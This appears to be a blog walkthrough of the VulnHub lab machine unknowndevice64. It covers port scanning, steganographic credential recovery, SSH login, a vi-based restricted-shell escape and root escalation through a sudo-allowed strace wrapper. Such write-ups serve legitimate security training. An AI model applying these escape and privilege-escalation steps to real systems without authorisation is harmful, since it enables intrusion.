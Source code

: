 ```yaml
---
title: "VulnHub - unknowndevice64 Walkthrough"
date: 2020-10-02
tags: [vulnhub, walkthrough, linux]
header:
  image: "/images/unknowndevice64-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


# VulnHub- unknowndevice64 Walkthrough

Hello, everyone. Today I will share the Boot to Root process in unknowndevice64 vulnerable machine. I will share only the successful way. There will not a lot of information.

## Information Gathering
We are starting with a **Nmap scan** to find open ports and services.

```
root@kali:~/unknowndevice64# nmap -p- -T4 -A unknowndevice64.local  
...
PORT STATE SERVICE VERSION  
1337/tcp open ssh OpenSSH 7.7 (protocol 2.0)  
...  
31337/tcp open http SimpleHTTPServer 0.6 (Python 2.7.14)  
...
```

Then I go to the **View Page Soure**  in the index of our victim's website.
I see something like this as HTML comment.
``` 
<p class="para" align="left"><p>Website By Unknowndevice64</p>  
<!-- key_is_h1dd3n.jpg -->
```
There is an image and nothing special. I think that this is more CTF-like box, so there can be some hidden comments in the metadata of the picture. It is embedded inside the image. It is **steganography**.

I try to check it using **steghide** command line utility.
```  
root@kali:~/unknowndevice64# steghide extract -sf key_is_h1dd3n.jpg  
Enter passphrase:  
wrote extracted data to "h1dd3n.txt".  
root@kali:~/unknowndevice64# cat h1dd3n.txt  
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.  
...
```
When we do this you see that it says "Enter passphrase:". Please pay  attention to the name of the image. "Key is h1dd3n". So I type *h1dd3n*.
It is **Brainfuck** encoded text. 
I decode it using my browser.
```
root@kali:~/unknowndevice64# cat >> user.txt  
ud64:1M!#64@ud  
```

I make a SSH session to the victim.
```
/root@kali:~/unknowndevice64# ssh ud64@unknowndevice64.local -p 1337  
ud64@unknowndevice64.local's password: 1M!#64@ud  
ud64@unknowndevice64_v1:~$
```

## Exploitation
We confronted with the **Restricted Shell**. It blocks most of the commands also using some signs (such as /, >, >> and etc.) in our arguments.

After that, I look for my available commands. I saw that I can use **vi**. So I agreed that I can **create Shell using Vi**.
```
ud64@unknowndevice64_v1:~$ vi  
:!/bin/bash   
bash-4.4$ sudo -l
```
The results of **sudoers file** show that I can use sysud64 command as root. I try to read more about this custom command.
```
# sysud64 -h | less
usage: strace [-CdffhiqrtttTvVwxxy] [-I n] [-e expr]...  
[-a column] [-o file] [-s strsize] [-P path]...  
-p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]  
or: strace -c[dfw] [-I n] [-e expr]... [-O overhead] [-S sortby]  
-p pid... / [-D]
...
```
It is clear that is a custom format of **strace** command. So I opened [GTFObins](https://gtfobins.github.io/) to look for how I can gain root access using **strace** command. It is a piece of cake.

```
bash-4.4$ sudo sysud64 -o /dev/null /bin/bash  
root@unknowndevice64_v1:/home/ud64# whoami  
root  
root@unknowndevice64_v1:/home/ud64# cd /root/  
root@unknowndevice64_v1:~# ls  
Desktop/ Documents/ Downloads/ Music/ Pictures/ Public/ Videos/ flag.txt  
root@unknowndevice64_v1:~# cat flag.txt  
___ _ _  
/ _ \ | | | |  
/ /_\ \ | |__ __ _ ___| | _____ _ __  
| _ | | '_ \ / _` |/ __| |/ / _ \ '__|  
| | | | | | | | (_| | (__| < __/ |  
\_| |_/ |_| |_|\__,_|\___|_|\_\___|_|  
  
  
_ __ _  
| | / _| | |  
__| | ___ ___ ___ | |_ ___ _ __ | | _____ _____  
/ _` |/ _ \ / _ \/ __| | _/ _ \| '__| | |/ _ \ \ / / _ \  
| (_| | (_) | __/\__ \ | || (_) | | | | (_) \ V / __/  
\__,_|\___/ \___||___/ |_| \___/|_| |_|\___/ \_/ \___|  
  
  
_ _ _ _  
| | | | | | | |  
__ _| |__ __ _| |_ ___ | |_| |__ ___ _ __ ___  
\ \ /\ / / '_ \ / _` | __| / _ \| __| '_ \ / _ \ '__/ __|  
\ V V /| | | | (_| | |_ | (_) | |_| | | | __/ | \__ \  
\_/\_/ |_| |_|\__,_|\__| \___/ \__|_| |_|\___|_| |___/  
  
  
_ _ _ _  
| | | | | | | |  
__ _____ _ _| | __| | _ __ ___ | |_ __| | ___  
\ \ /\ / / _ \| | | | |/ _` | | '_ \ / _ \| __| / _` |/ _ \  
\ V V / (_) | |_| | | (_| | | | | | (_) | |_ | (_| | (_) |  
\_/\_/ \___/ \__,_|_|\__,_| |_| |_|\___/ \__| \__,_|\___/  
  
  
__  
/ _|  
| |_ ___ _ __ _ __ ___ ___ _ __ ___ _ _  
| _/ _ \| '__| | '_ ` _ \ / _ \| '_ \ / _ \ | | |  
| || (_) | | | | | | | | (_) | | | | __/ |_| |_  
|_| \___/|_| |_| |_| |_|\___/|_| |_|\___|\__, (_)  
__/ |  
|___/  
  
  
  
_ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _ _  
/ \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \  
( . | / | u | n | k | n | o | w | n | d | e | v | i | c | e | 6 | 4 )  
\_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/  
  
root@unknowndevice64_v1:~#
```
Victory! Thanks for reading!